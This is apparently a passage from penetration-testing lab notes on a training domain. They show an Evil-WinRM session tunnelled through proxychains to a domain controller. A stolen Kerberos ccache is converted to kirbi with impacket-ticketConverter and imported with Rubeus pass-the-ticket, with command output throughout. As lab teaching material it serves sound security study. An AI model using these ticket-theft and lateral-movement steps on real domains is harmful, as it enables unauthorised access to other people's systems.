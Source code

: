 ```sh
Info: Establishing connection to remote endpoint

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  dc01:5985  ...  OK
*Evil-WinRM* PS C:\Users\julio\Documents> whoami ; hostname
inlanefreight\julio
DC01
```

## Miscellaneous
* If we want to use a `ccache file` in Windows or a `kirbi file` in a Linux machine, we can use [impacket-ticketConverter](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py) to convert them

#### Impacket Ticket Converter
* Specify the file we want to convert and the output filename

```sh
impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```

#### Importing Converted Ticket into Windows Session with Rubeus

```powershell
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
C:\htb> klist

Current LogonId is 0:0x31adf02

Cached Tickets: (1)

#0>     Client: julio @ INLANEFREIGHT.HTB
        Server: krbtgt/INLANEFREIGHT.HTB @ INLANEFREIGHT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0xa1c20000 -> reserved forwarded invalid renewable initial 0x20000
        Start Time: 10/10/2022 5:46:02 (local)
        End Time:   10/10/2022 15:46:02 (local)
        Renew Time: 10/11/2022 5:46:02 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

C:\htb>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72

```